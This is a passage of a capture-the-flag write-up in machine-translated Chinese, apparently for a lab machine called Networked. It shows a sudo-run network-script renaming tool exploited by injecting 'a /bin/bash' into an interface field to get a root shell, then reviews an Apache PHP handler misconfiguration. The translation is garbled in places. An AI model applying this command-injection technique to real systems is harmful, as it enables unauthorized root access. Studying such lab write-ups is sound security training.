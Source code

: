     /etc/sysconfig/network-scripts
    root
    ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
    

### 壳

我偶然发现的是四月份在[保密名单上](https://seclists.org/fulldisclosure/2019/Apr/24)报告的错误。将执行网络脚本中值中空格之后的任何内容（格式为格式）。对[该披露的回应](https://seclists.org/fulldisclosure/2019/Apr/27)是，任何可以编写该文件的人基本上都是root，所以这并不重要。`VARIABLE=value`

脚本开头的正则表达式检查可以防止我做任何太复杂的事情，但它不会阻止我得到一个简单的shell：

    [guly@networked ~]$ sudo /usr/local/sbin/changename.sh
    interface NAME:
    0xdf
    interface PROXY_METHOD:
    a /bin/bash
    interface BROWSER_ONLY:
    b
    interface BOOTPROTO:
    c
    [root@networked network-scripts]# id 
    uid=0(root) gid=0(root) groups=0(root)
    

我现在可以抓住：`root.txt`

    [root@networked ~]# cat root.txt 
    0a8ecda8...
    

## 超越根 - PHP 配置错误

在获得最初的立足点时，我上传了一个文件，Web服务器将其视为PHP代码并运行它。我之前分享了[这个链接](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)。我想看看Apache配置，看看它与本文中的配置相比如何。`10_10_14_5.php.png`

阿帕奇配置文件存储在.主要配置是 ，但最后一行是：`/etc/httpd/``/etc/httpd/conf/httpd.conf`

    # Supplemental configuration
    #
    # Load config files in the "/etc/httpd/conf.d" directory, if any.
    IncludeOptional conf.d/*.conf
    

在里面，我会找到一些文件，包括：`/etc/http/conf.d``.conf`

    [root@networked ~]# ls /etc/httpd/conf.d/
    autoindex.conf  php.conf  README  userdir.conf  welcome.conf
    

查看 ，我将从博客文章中看到相同的配置：`php.cong`
